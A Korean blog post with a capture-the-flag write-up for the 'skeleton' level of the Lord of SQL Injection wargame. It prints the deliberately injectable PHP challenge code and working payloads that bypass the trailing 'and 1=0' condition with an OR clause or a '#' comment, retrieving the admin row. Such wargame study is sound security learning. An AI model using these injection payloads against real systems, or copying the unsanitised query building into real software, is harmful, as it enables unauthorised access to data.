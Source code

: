 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - skeleton 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


내일이 월요일이라니 실화인가.  

주말 너무 순삭되는 것 같다.  

지금 진행중인 `CTF` 문제를 풀고 싶은데 아직 내 실력으로는 무리라는걸 깨닫고 다시 `LOS`를 풀려고 돌아왔다.  

<!--more-->

이번 문제의 이름은 `skeleton` 이다.  

코드는 다음과 같다.  

```php
-----------------------------------------------------------------------------------------
query : select id from prob_skeleton where id='guest' and pw='' and 1=0
-----------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

이번 문제도 역시 소스코드가 짧다.  

딱히 큰 필터링은 없는데 이번엔 쿼리가 달라져있다.  

`pw`를 사용자로부터 받아오는데, 뒤에 `and 1=0`이 있어 무조건 마지막에 입력한 쿼리는 `false`가 된다.  

예를 들어, 내가 이 전에 문제들을 풀었던 것 처럼 `pw`에 `1' or id='admin`을 입력한다면 완성되는 쿼리는 다음과 같다.  

```
select id from prob_skeleton where id='guest' and pw='1' or id='admin' and 1=0
```

때문에 내가 입력한 값이 `id=admin and 1=0` 를 만들게 되는 것이다.  

그럼 뒤의 `and 1=0`을 실행 못하게 하면 문제를 풀 수 있을 것 같다.  

사실 아래처럼 입력해도 문제를 풀 수 있다.  

```
?pw=1' or id='admin' or '1'='1
```

이렇게 되면 `id='admin'`를 기준으로 앞과 뒤의 쿼리가 모두 `false`고 `id='admin'`만 `true`가 되어 결과적으로 `admin`을 추출할 수 있다.  

근데 귀찮아서 문제를 풀 때는 그냥 `#`으로 주석처리 했다.  

```
?pw=1' or id='admin'%23
```

역시 문제 풀때는 간단한 방법이 최고다.  


```php
-------------------------------------------------------------------------------------------------------------------
query : select id from prob_skeleton where id='guest' and pw='1' or id='admin'#' and 1=0
-------------------------------------------------------------------------------------------------------------------

SKELETON Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

`SKELETON Clear!!`
